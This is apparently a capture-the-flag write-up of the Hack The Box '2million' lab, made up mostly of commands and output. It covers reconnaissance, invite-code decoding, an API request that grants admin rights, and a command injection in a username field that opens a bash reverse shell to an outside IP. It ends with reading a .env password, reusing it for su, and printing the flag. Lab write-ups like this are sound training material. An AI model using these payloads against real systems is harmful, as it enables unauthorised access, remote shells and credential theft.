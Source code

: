 
1 - RECON

nmap -A -T4 10.10.11.221     
Starting Nmap 7.92 ( https://nmap.org ) at 2023-06-11 01:02 -03
Nmap scan report for 10.10.11.221
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

sudo nmap -sC -sV  10.10.11.221
[sudo] password for r_deckard: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-06-11 01:27 -03
Nmap scan report for 2million.htb (10.10.11.221)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Hack The Box :: Penetration Testing Labs
|_http-trane-info: Problem with XML parsing of /evox/about
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

2 - WEB RECON

200      GET       80l      232w     3704c http://2million.htb/login
200      GET       94l      293w     4527c http://2million.htb/register
401      GET        0l        0w        0c http://2million.htb/api
401      GET        0l        0w        0c http://2million.htb/api/v1
302      GET        0l        0w        0c http://2million.htb/logout => http://2million.htb/
200      GET     1242l     3326w    64952c http://2million.htb/
302      GET        0l        0w        0c http://2million.htb/home => http://2million.htb/
200      GET       46l      152w     1674c http://2million.htb/404


## WEB FINDINGS

### IN URLS FIND JS FILES TO VALIDATE INVITE

http://2million.htb/register
http://2million.htb/js/inviteapi.min.js

makeInviteCode();

Object { 0: 200, success: 1, data: {…}, hint: "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..." }

data: Object { data: "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr", enctype: "ROT13" }

data: "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr"

enctype: "ROT13"

### DECRYPT ROT13

In order to generate the invite code, make a POST request to /api/v1/invite/generate


### SEND REQUEST WITH CURL

curl -X POST http://2million.htb/api/v1/invite/generate

{"0":200,"success":1,"data":{"code":"VlZOUzctUjNUQVotS1pUQUEtWUM4Ukc=","format":"encoded"}}

### DECODED INVITE CODE

echo VlZOUzctUjNUQVotS1pUQUEtWUM4Ukc= | base64 -d
VVNS7-R3TAZ-KZTAA-YC8RG

### REGISTER/LOGIN

fatboy

fatboysec@mail.com

123456789

### IN USER ACCOUNT HAVE PAGE FOR GIVE ACCESS TO VPN

http://2million.htb/home/access

download file: http://2million.htb/api/v1/user/vpn/generate

(/api/v1/)

### ENUMERATE API

http://2million.htb/api/v1

{"v1":{"user":{
"GET":{
"\/api\/v1":"Route List",
"\/api\/v1\/invite\/how\/to\/generate":"Instructions on invite code generation",
"\/api\/v1\/invite\/generate":"Generate invite code",
"\/api\/v1\/invite\/verify":"Verify invite code",
"\/api\/v1\/user\/auth":"Check if user is authenticated",
"\/api\/v1\/user\/vpn\/generate":"Generate a new VPN configuration",
"\/api\/v1\/user\/vpn\/regenerate":"Regenerate VPN configuration",
"\/api\/v1\/user\/vpn\/download":"Download OVPN file"},
"POST":{
"\/api\/v1\/user\/register":"Register a new user",
"\/api\/v1\/user\/login":"Login with existing user"}},
"admin":{"GET":{
"\/api\/v1\/admin\/auth":"Check if user is admin"},
"POST":{"\/api\/v1\/admin\/vpn\/generate":"Generate VPN for specific user"},
"PUT":{"\/api\/v1\/admin\/settings\/update":"Update user settings"}}}}


### ENDPOINT MORE INTERESTING

http://2million.htb/api/v1/admin/settings/update

POST /api/v1/admin/settings/update
{
"email": "fatboysec@mail.com",
"is_admin": 1
}

POST /api/v1/admin/vpn/generate (return file for vpn)
{
"username": "fatboy"
}

### EXPLORATION ENDPOINT /api/v1/admin/vpn/generate


POST /api/v1/admin/vpn/generate
{
"username": "fatboy; id;"
}

### HAVE SHELL 

POST /api/v1/admin/vpn/generate
{
"username": "fatboy; bash -c 'sh -i >& /dev/tcp/10.10.14.96/1234 0>&1' ;"
}

### ON MACHINE

www-data@2million:~/html$ ls -lah 

drwxr-xr-x 10 root root 4.0K Jun 11 19:20 .
drwxr-xr-x  3 root root 4.0K Jun 11 16:17 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1.3K Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2.8K Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4.0K Jun 11 19:20 VPN
drwxr-xr-x  2 root root 4.0K Jun  6 10:22 assets
drwxr-xr-x  2 root root 4.0K Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4.0K Jun  6 10:22 css
drwxr-xr-x  2 root root 4.0K Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4.0K Jun  6 10:22 images
-rw-r--r--  1 root root 2.7K Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4.0K Jun  6 10:22 js
drwxr-xr-x  2 root root 4.0K Jun  6 10:22 views

### FIND .env FILE

www-data@2million:~/html$ cat .env

cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123


### TRY PASS TO ADMIN

www-data@2million:~/html$ su admin
su admin
Password: SuperDuperPass123

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.


### HAVE PRIV ESC

admin@2million:~$ 
/home/admin

admin@2million:~$ cat user.txt
cat user.txt

95d3a4005e3aae479bb651ced88a1533 

o/